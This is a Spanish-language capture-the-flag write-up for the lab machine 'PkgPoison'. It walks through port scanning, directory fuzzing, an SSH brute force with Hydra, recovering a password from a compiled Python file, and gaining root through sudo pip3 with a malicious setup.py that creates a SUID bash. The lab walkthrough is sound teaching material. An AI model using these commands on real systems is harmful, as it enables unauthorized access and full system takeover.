










# 🧠 Informe de Pentesting – Máquina: PkgPoison

### 💡 Dificultad: Fácil

📦 **Plataforma:** DockerLabs



---

# 🚀 Despliegue de la Máquina

Para iniciar la máquina vulnerable, primero descomprimimos el archivo proporcionado y posteriormente ejecutamos el script de despliegue:

```bash
unzip pkgpoison.zip
sudo bash auto_deploy.sh pkgpoison.tar
```

Una vez finalizado el proceso, el contenedor vulnerable quedará desplegado dentro de nuestro entorno de laboratorio y listo para comenzar las tareas de reconocimiento y explotación.



---

# 📶 Comprobación de Conectividad

Después del despliegue, verificamos que la máquina objetivo se encuentre activa y responda correctamente a peticiones ICMP:

```bash
ping -c1 172.17.0.2
```

La respuesta recibida confirma que el host está encendido y accesible dentro de la red local del laboratorio.



---

# 🔍 Escaneo de Puertos

El siguiente paso consiste en realizar un escaneo completo sobre todos los puertos TCP con el objetivo de identificar los servicios expuestos por la máquina víctima.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

### Explicación de los parámetros utilizados

| Parámetro         | Descripción                                    |
| ----------------- | ---------------------------------------------- |
| `-p-`             | Escanea los 65535 puertos TCP.                 |
| `--open`          | Muestra únicamente los puertos abiertos.       |
| `-sS`             | Realiza un SYN Scan (escaneo semiabierto).     |
| `--min-rate 5000` | Envía al menos 5000 paquetes por segundo.      |
| `-vvv`            | Incrementa el nivel de verbosidad.             |
| `-n`              | Evita la resolución DNS.                       |
| `-Pn`             | Omite la fase de descubrimiento mediante ping. |

### 📌 Puertos Abiertos Detectados

Durante el análisis se identificaron los siguientes puertos abiertos:

* **80/tcp** → Servicio HTTP
* **22/tcp** → Servicio SSH



---

## 🧩 Enumeración de Servicios y Versiones

Una vez identificados los puertos abiertos, realizamos una enumeración más detallada para conocer versiones, configuraciones y posibles vectores de ataque.

```bash
nmap -sCV -p80,22 172.17.0.2
```

### Explicación de los parámetros

| Parámetro | Descripción                                |
| --------- | ------------------------------------------ |
| `-sC`     | Ejecuta scripts NSE por defecto.           |
| `-sV`     | Detecta versiones de servicios.            |
| `-p`      | Define los puertos específicos a analizar. |

Este análisis permite recopilar información relevante sobre los servicios activos y posibles configuraciones inseguras.



---

# Revisión de la Página HTTP

Una vez identificado el servicio HTTP durante la fase de reconocimiento, se accede al sitio web desde el navegador utilizando la siguiente URL:

```bash
http://172.17.0.2
```



Al inspeccionar el contenido de la página principal, únicamente se observa una imagen sin funcionalidades adicionales ni información visible que pueda ser utilizada directamente para continuar con la intrusión. Debido a ello, se procede a realizar una enumeración más exhaustiva del servicio web en busca de recursos ocultos.

---

# Realizaciòn de fuzzing de directorios

Con el objetivo de descubrir directorios y archivos no visibles desde la página principal, se ejecuta un proceso de fuzzing utilizando Gobuster:

```bash
gobuster dir -url http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .env,.php,.bak,.old,.zip,.txt -b 403,404 --exclude-length 0
```

Como resultado de la enumeración, se identifica el siguiente directorio:

```text
/notes
```

Al acceder a dicho recurso, se encuentra un archivo denominado **notes.txt**, el cual contiene las siguientes credenciales:

```text
dev:developer123
```



Inicialmente se intentó utilizar estas credenciales en los servicios identificados, sin obtener acceso exitoso. Debido a ello, se decidió emplear el nombre de usuario descubierto para realizar un ataque de fuerza bruta contra el servicio SSH.

Se ejecuta Hydra utilizando el usuario **dev** y el diccionario **rockyou.txt**:

```bash
hydra -l dev -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Tras varios intentos, se obtienen credenciales válidas para el acceso por SSH:

```text
dev:computer
```

Estas credenciales permiten establecer una sesión remota en el sistema comprometido.



---

# Nota: Antes de hacer la escalada se debe de hacer el tratamiento de TTY para evitar conflictos en la terminal

Las shells obtenidas mediante técnicas de Reverse Shell suelen ser limitadas y carecen de funcionalidades propias de una terminal interactiva. Por ello, antes de comenzar cualquier proceso de escalada de privilegios es recomendable realizar el tratamiento de la TTY para disponer de una consola más estable y funcional.

```bash
script /dev/null -c bash
```

Una vez ejecutado el comando anterior, se suspende temporalmente la sesión:

```bash
Ctrl + Z
```

Posteriormente, desde la máquina atacante:

```bash
stty raw -echo; fg
```

A continuación se restablece correctamente el entorno de terminal:

```bash
reset xterm
```

Se configuran las variables necesarias para mejorar la experiencia interactiva:

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

Tras estos pasos se obtiene una terminal completamente interactiva, permitiendo utilizar herramientas como `su`, `vim`, `nano`, historial de comandos, autocompletado y combinaciones de teclas sin restricciones.

---

# Escalada a usuario admin

Una vez dentro del sistema como el usuario **dev**, se realiza una enumeración de usuarios con acceso a una shell interactiva mediante el siguiente comando:

```bash
cat /etc/passwd | grep "/bin/bash"
```

Durante esta revisión se identifica la existencia del usuario **admin**, que podría representar un objetivo válido para una escalada horizontal de privilegios.

Posteriormente, se buscan archivos pertenecientes a dicho usuario que puedan contener información sensible:

```bash
find / -user "admin" 2>/dev/null
```

Entre los resultados encontrados destaca el siguiente archivo compilado de Python:

```text
/opt/scripts/__pycache__/secret.cpython-38.pyc
```

Al tratarse de un archivo compilado, su contenido no resulta legible utilizando herramientas convencionales como `cat`. Por esta razón, se utiliza el comando `strings` para extraer cadenas de texto potencialmente relevantes:

```bash
strings /opt/scripts/__pycache__/secret.cpython-38.pyc
```

La salida revela múltiples cadenas con apariencia de contraseñas. Tras probar diferentes combinaciones, se logra identificar una credencial válida correspondiente al usuario **admin**:

```text
admin:p@$$w0r8321
```

Con estas credenciales se realiza el cambio de usuario, obteniendo acceso a la cuenta **admin**.



# Escalada a root

Desde la cuenta **admin**, se revisan los privilegios sudo asignados mediante:

```bash
sudo -l
```

La salida indica que el binario **pip3** puede ejecutarse como **root** sin necesidad de contraseña. Esta configuración es insegura, ya que permite ejecutar código arbitrario durante el proceso de instalación de paquetes de Python.

## Configuración del entorno y generación del script malicioso

Se crea un directorio temporal que contendrá un archivo `setup.py`. Dicho archivo ejecutará comandos del sistema para copiar `/bin/bash` a una ubicación accesible y asignarle permisos SUID:

```bash
TF=$(mktemp -d); printf "from setuptools import setup\nimport os\nos.system('cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash')\nsetup(name='exploit', version='1.0')\n" > $TF/setup.py
```

El objetivo de este script es crear una copia de Bash con privilegios especiales que posteriormente permitirá obtener una shell con permisos de superusuario.

## Ejecución de la instalación con privilegios elevados

A continuación, se utiliza el permiso sudo otorgado sobre `pip3` para procesar e instalar el paquete malicioso:

```bash
sudo /usr/bin/pip3 install $TF/
```

Durante la instalación, el archivo `setup.py` es ejecutado con privilegios de root, provocando la creación del binario SUID en la ruta especificada.

## Obtención de una shell como root

Una vez completado el proceso, se ejecuta el binario generado:

```bash
/tmp/rootbash -p
```

El parámetro `-p` indica a Bash que conserve los privilegios efectivos del propietario del archivo SUID. Como consecuencia, se obtiene una shell con privilegios de **root**, logrando el control total sobre el sistema.


